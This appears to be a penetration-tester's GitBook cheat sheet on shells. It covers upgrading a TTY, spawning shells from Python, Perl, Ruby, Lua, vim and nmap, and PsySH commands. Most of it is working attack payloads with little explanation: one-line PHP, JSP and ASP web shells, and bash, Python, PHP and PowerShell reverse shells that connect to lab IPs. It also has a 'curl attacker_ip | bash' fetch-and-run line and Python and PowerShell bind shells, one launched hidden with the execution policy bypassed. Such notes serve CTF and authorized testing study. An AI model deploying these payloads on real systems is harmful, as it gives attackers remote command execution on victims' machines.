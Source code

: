 ```yaml
---
description: and Shells
icon: book-skull
---
```


# Shells/TTYs

<details>

<summary><mark style="color:orange;"><strong><code>TTY</code></strong></mark> <mark style="color:purple;"><strong>-</strong></mark> <mark style="color:purple;"><strong><code>Teletypewriters</code></strong></mark> </summary>

{% hint style="info" %}
<mark style="color:purple;">**Full**</mark> <mark style="color:orange;">**`TTY`**</mark>

#### <mark style="color:orange;">`BASH`</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. &#x20;<kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>

#### <mark style="color:orange;">**`ZSH`**</mark>

1. <mark style="color:red;">**`python3 -c 'import pty; pty.spawn("/bin/bash")'`**</mark>
2. <kbd><mark style="color:red;">**CTRL+Z**<mark style="color:red;"></kbd>
3. <mark style="color:red;">**`stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`**</mark>
{% endhint %}

{% hint style="info" %}


#### <mark style="color:red;">`Clear Terminal`</mark>

<mark style="color:purple;">Set the environmental variable from the terminal to</mark> <mark style="color:orange;">**`xterm`**</mark><mark style="color:purple;">:</mark>

{% code title="Change the env to xterm" %}
```editorconfig
export TERM=xterm
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">`Terminal Size`</mark>

<mark style="color:purple;">Sometimes you may need to adjust your terminal size to the needs of the situation:</mark>

{% code title="Check your terminal size" %}
```
stty size
```
{% endcode %}

{% code title="Now, change it in the target" overflow="wrap" %}
```sh
stty rows <NUMBER> columns <NUMBER>
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">`Use arrow-keys`</mark>

#### <mark style="color:orange;">`BASH`</mark>

{% code title="Just use it" %}
```sh
bash
```
{% endcode %}

{% code title="Turn history on" %}
```sh
set -o history
```
{% endcode %}

* <mark style="color:purple;">In the</mark> <mark style="color:orange;">**`.bashrc`**</mark> <mark style="color:purple;">file, make sure</mark> <mark style="color:orange;">**`HISTSIZE`**</mark> <mark style="color:purple;">is not set to</mark> <mark style="color:orange;">**`0`**</mark><mark style="color:purple;">:</mark>

```editorconfig
HISTSIZE=1000
HISTFILESIZE=1000
```
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">**enables line editing and history:**</mark>

{% code title="Listener example" overflow="wrap" %}
```sh
rlwrap nc -lvnp <port>
```
{% endcode %}

{% code title="Connection example" overflow="wrap" %}
```sh
rlwrap nc 10.10.10.131 6200
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Spawning Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`pty`**</mark> <mark style="color:purple;">module in</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">allows you to spawn a new process in a pseudo-terminal, effectively creating an interactive shell:</mark>

```sh
python3 -c 'import pty; pty.spawn("/bin/sh")' 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The</mark> <mark style="color:orange;">**`script`**</mark> <mark style="color:purple;">command starts a shell session and records the session to a file.</mark> <mark style="color:orange;">**`/dev/null`**</mark> <mark style="color:purple;">is specified as the file where the session is "recorded", but since it's</mark> <mark style="color:orange;">**`/dev/null`**</mark><mark style="color:purple;">, no logging actually happens:</mark>

```sh
script -qc /bin/bash /dev/null
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Also is possible to use</mark> <mark style="color:orange;">**`echo`**</mark> <mark style="color:purple;">to pass</mark>  <mark style="color:green;">**`Python`**</mark> <mark style="color:orange;">**`os.system('/bin/bash')`**</mark> <mark style="color:purple;">to the Python interpreter:</mark>

```sh
echo os.system('/bin/bash') 
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn an interactive shell directly from the terminal:</mark>

```bash
/bin/sh -i
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">The command</mark> <mark style="color:orange;">**`exec "/bin/sh"`**</mark> <mark style="color:purple;">replaces the running</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">process with a new</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">shell:</mark>

```sh
perl -e 'exec "/bin/sh";'
```

{% code title="Spawn the shell directly" %}
```bash
perl: exec "/bin/sh";
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">'s</mark> <mark style="color:orange;">**`exec`**</mark> <mark style="color:purple;">function, like in Perl, replaces the current process with a new process—in this case,</mark> <mark style="color:orange;">**`/bin/sh`**</mark><mark style="color:purple;">:</mark>

```sh
ruby: exec "/bin/sh"
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Runs a shell command from</mark> <mark style="color:orange;">**`Lua`**</mark><mark style="color:purple;">, but unlike in</mark> <mark style="color:orange;">**`Perl`**</mark> <mark style="color:purple;">or</mark> <mark style="color:red;">**`Ruby`**</mark><mark style="color:purple;">, this does not replace the current process. It runs</mark> <mark style="color:orange;">**`/bin/sh`**</mark> <mark style="color:purple;">as a child process:</mark>

```bash
lua: os.execute('/bin/sh')
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Replaces the current</mark> <mark style="color:red;">**`Ruby`**</mark> <mark style="color:purple;">interpreter (IRB) with the shell:</mark>

```bash
exec "/bin/sh";
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Used to execute an external shell command:</mark>

```sh
:!bash
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Changes the default shell used by vim's</mark> <mark style="color:orange;">**`:!`**</mark> <mark style="color:purple;">command:</mark>

```bash
:set shell=/bin/bash:shell
```
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">Spawn a shell from within the</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">interface, enabling the execution of additional shell commands while scanning:</mark>

```sh
!sh
```
{% endhint %}



</details>

<details>

<summary><mark style="color:orange;"><strong><code>PSY</code></strong></mark></summary>

<mark style="color:orange;">**`PSY`**</mark> <mark style="color:purple;">Shell is an interactive</mark> <mark style="color:orange;">**`PHP REPL (Read-Eval-Print Loop)`**</mark> <mark style="color:purple;">used normally for debugging.</mark>

{% code title="Print the working directory" %}
```php
getcwd()
```
{% endcode %}

{% code title="Print the current user" %}
```php
get_current_user()
```
{% endcode %}

{% code title="Print system info" %}
```php
phpinfo()
```
{% endcode %}

{% code title="Print contents from directory" %}
```php
scandir("/home")
```
{% endcode %}

{% code title="Print content from file" overflow="wrap" %}
```php
file_get_contents("/etc/os-release")
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Web Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Save the shells`**</mark>

{% code overflow="wrap" %}
```sh
echo '<?php system($_REQUEST['cmd']); ?>' > cmd.php
```
{% endcode %}
{% endhint %}

{% code title="PHP Shell" overflow="wrap" %}
```php
<?php system($_REQUEST['cmd']); ?>
```
{% endcode %}

{% code title="JSP - Java Server Pages" overflow="wrap" %}
```sh
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endcode %}

{% code title="ASP - Active Server Pages" %}
```aspnet
<% eval request("cmd") %>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>BASH</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% code title="Standard" overflow="wrap" %}
```sh
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```
{% endcode %}

{% code title="URL" overflow="wrap" %}
```url
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/9001+0>%261'
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**`FIFO`**</mark>

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
{% endcode %}

{% code title="URL Encoded" overflow="wrap" %}
```url
rm%20/tmp/f%3B%20mkfifo%20/tmp/f%3B%20cat%20/tmp/f%20%7C%20/bin/sh%20-i%202%3E%261%20%7C%20nc%2010.10.16.10%204444%20%3E%20/tmp/f
```
{% endcode %}
{% endhint %}

{% code title="Run it in the background" %}
```sh
nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" &
```
{% endcode %}

</details>

<details>

<summary><mark style="color:green;"><strong><code>Python</code></strong></mark> <mark style="color:red;"><strong><code>Reverse Shells</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:orange;">**`PTY`**</mark>

{% code title="One-liner IPv4" overflow="wrap" %}
```sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
{% endcode %}

{% code title="Save in a file IPv4" overflow="wrap" %}
```sh
echo 'import pty
import socket
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.6", 4444))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn("/bin/bash")
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:orange;">**`subprocess`**</mark>

{% code title="One-liner IPv4 " overflow="wrap" %}
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

{% code title="Save it in a file IPv4" overflow="wrap" %}
```sh
echo 'import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.157", 1235))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
subprocess.call(["/bin/sh", "-i"])
s.close()' > shell.py
```
{% endcode %}
{% endhint %}

{% code title="UDP Reverse shell" overflow="wrap" %}
```python
import os
os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.16.10 4444 >/tmp/f &").read()
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="Direct reverse shell" overflow="wrap" %}
```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");?>
```
{% endcode %}

{% code title="Remote reverse shell" overflow="wrap" %}
```php
<?php system("curl http://attacker_ip/reverseshell | bash"); ?>
```
{% endcode %}

{% code title="FIFO " overflow="wrap" %}
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <Port> >/tmp/f"); ?>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Powershell</code></strong></mark> <mark style="color:red;"><strong><code>Reverse shell</code></strong></mark></summary>

{% code title="" overflow="wrap" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

</details>

<details>

<summary><mark style="color:red;"><strong><code>Bind Shells</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">First, find ports were</mark> <mark style="color:orange;">**`inbound`**</mark> <mark style="color:purple;">connections are allowed:</mark>

{% code title="Linux" overflow="wrap" lineNumbers="true" %}
```sh
ss -tuln
netstat -tuln
lsof -i -n
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```sh
netstat -ano | findstr "LISTEN"
Get-Process | Where-Object {$_.Id -eq (Get-NetTCPConnection | Where-Object {$_.State -eq 'Listen'}).OwningProcess}
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Check the firewall rules in Windows:`**</mark>

```powershell
netsh advfirewall firewall show rule name=all
```
{% endhint %}

{% code title="Python Shell" overflow="wrap" %}
```sh
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

{% code title="Powershell" overflow="wrap" %}
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

</details>
